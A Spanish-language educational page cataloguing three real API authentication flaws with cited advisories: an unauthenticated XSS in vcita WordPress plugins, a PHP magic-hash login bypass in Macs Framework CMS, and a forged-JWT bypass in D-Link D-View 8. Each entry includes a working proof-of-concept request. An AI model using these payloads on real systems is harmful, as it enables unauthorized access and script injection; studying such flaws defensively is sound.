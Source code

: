 # Errores comunes de autenticación y autorización de API

### 1. **Errores de Autenticación: XSS no Autenticado en Plugins de WordPress por vcita**
   - **Descripción e Impacto**: En los plugins de WordPress de vcita, se descubrieron vulnerabilidades graves. Una de ellas es una vulnerabilidad de Cross-Site Scripting (XSS) no autenticada causada por la falta de validación y saneamiento en un endpoint REST. Un atacante podría enviar una solicitud maliciosa para modificar variables en la base de datos, ejecutando así scripts maliciosos en el sitio web afectado.

   - **Ejemplo de Código**:
     ```bash
     curl –request POST \
     –url https://example.com/wp-json/vcita-wordpress/v1/actions/auth \
     –header 'Content-Type: application/json' \
     –data '{ "success": true, "user_data": { "business_id": "\” alert(1); //", "business_name": "Evil Eve", "email": " [email protected] ” } }'
     ```

   - **Fuente**: [Jonas' Blog](https://blog.jonh.eu/blog/security-vulnerabilities-in-wordpress-plugins-by-vcita)

### 2. **Errores de Autorización: Confusión de Tipo en PHP en Macs Framework v1.1.4f CMS**
   - **Descripción e Impacto**: La vulnerabilidad en el Macs Framework v1.1.4f CMS es causada por una comparación débil en la función `isValidLogin()`, que lleva a una confusión de tipo en PHP. Esto permite eludir la autenticación utilizando cualquier contraseña que resulte en un "hash mágico", permitiendo el acceso no autorizado a cuentas administrativas.
   
   - **Ejemplo de Código**:
     ```http
     POST /index.php/main/cms/login HTTP/1.1
     Host: 172.17.0.2
     Content-Length: 62
     Accept: */*
     X-Requested-With: XMLHttpRequest
     User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
     Content-Type: application/x-www-form-urlencoded
     Origin: http://172.17.0.2
     Referer: http://172.17.0.2/index.php/main/cms/login
     Accept-Encoding: gzip, deflate
     Accept-Language: en-US,en;q=0.9
     Cookie: PHPSESSID=di4ceqcv9432vcb0p27rkh7k82
     Connection: close
     ajaxRequest=true&&username=testadmin&password=0gdVIdSQL8Cm&scrollPosition=0
     ```

   - **Fuente**: [CXSecurity](https://cxsecurity.com/issue/WLB-2023090075)

### 3. **Gestión Incorrecta de Tokens: Bypass de Autenticación en D-Link D-View 8**
   - **Descripción e Impacto**: En D-Link D-View 8, se encontró una vulnerabilidad de bypass de autenticación relacionada con el uso de una clave estática para los tokens JWT. Un atacante podía crear un JWT válido y usarlo para acceder a APIs protegidas, especialmente debido a que no se verificaba la clave API para el usuario administrador predeterminado.

   - **Ejemplo de Código**:
     ```bash
     curl -k -H 'Authorization: eyJhbGciOiAiSFMyNTYiLCJ0eXAiOiAiand0In0.eyJvcmdJZCI6ICIxMjM0NTY3OC0xMjM0LTEyMzQtMTIzNC0xMjM0NTY3ODA5YWEiLCJ1c2VySWQiOiAiNTkxNzFkNTYtZTZiNC00Nzg5LTkwZmYtYTdhMjdmZDQ4NTQ4IiwidHlwZSI6IDMsImtleSI6ICIxMjM0NTY3OC0xMjM0LTEyMzQtMTIzNC0xMjM0NTY3ODkwYmIiLCJpYXQiOiAxNjg2NzY1MTk4LCJqdGkiOiAiZmRhOGU1YzNlNWY1MTQ5MDMzZThiM2FkNWI3ZDhjMjUiLCJuYmYiOiAxNjg2NzYxNTk4LCJleHAiOiAxODQ0NDQ1MTk4fQ.5swhQdiev4r8ZDNkJAFVkGfRTIaUQlwVue2AI18CrcI' 'https://<dview8-host>:17300/dview8/api/usersByLevel'
     ```
     
   - **Fuente**: [Tenable Research Advisory](https://www.tenable.com/security/research/tra-2023-32)
